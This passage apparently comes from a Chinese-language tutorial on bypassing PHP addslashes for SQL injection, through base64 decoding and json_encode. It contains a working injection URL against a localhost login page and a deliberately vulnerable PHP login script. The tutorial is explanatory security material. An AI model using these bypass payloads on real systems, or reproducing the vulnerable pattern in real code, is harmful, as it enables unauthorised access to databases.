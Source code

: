 $username=addslashes($username);  $username=base64_decode($username);    也是因为解码后没有在过滤，导致base64编码绕过 

![img]({{site.baseurl}}/assets/images/base64.png) 

http://127.0.0.1/qclover/login1.php?username=YWRtaW4nICM=&password=test

![1540116446928]({{site.baseurl}}/assets/images/1540116446928.png)

登录成功  看看数据库执行记录，确实被解码了 

![1540116645657]({{site.baseurl}}/assets/images/1540116645657.png)

#### **1.3json编码导致绕过addslashes**

json编码绕过addslashes是因为json编码会把\转换为\\
 admin' # 被addslashes会变成admin\' # 引号被过滤了转移不了

```php
<?php
$str=$_GET['str'];
$str=addslashes($str);
echo json_encode($str);
?>
```

 但是经过了json_encode后变成admin\\' #   引号成功逃了出来，可以注入了

如下图：

![1540116906745]({{site.baseurl}}/assets/images/1540116906745.png)

```php
	<?php
	if(is_null($_REQUEST['username']) || is_null($_REQUEST['password']))
	{
	        die();
	}
    $link=mysql_connect("localhost","root","root");
	mysql_query("SET NAMES 'gbk'");
	mysql_select_db("test",$link);
	$username=$_REQUEST['username'];
	$username=addslashes($username);
	$username=json_encode($username);
	$password=md5($_REQUEST['password']);
	$sql="select count(*) as num from admin where name='".$username."' and pass='".$password."'";
	$query=mysql_query($sql);
    $res=mysql_fetch_array($query);
	$count=$res['num'];
	if($count==1)
	{
	        echo "login success";
	}
	else
	{
        echo "login failed";
	}
	?>
```
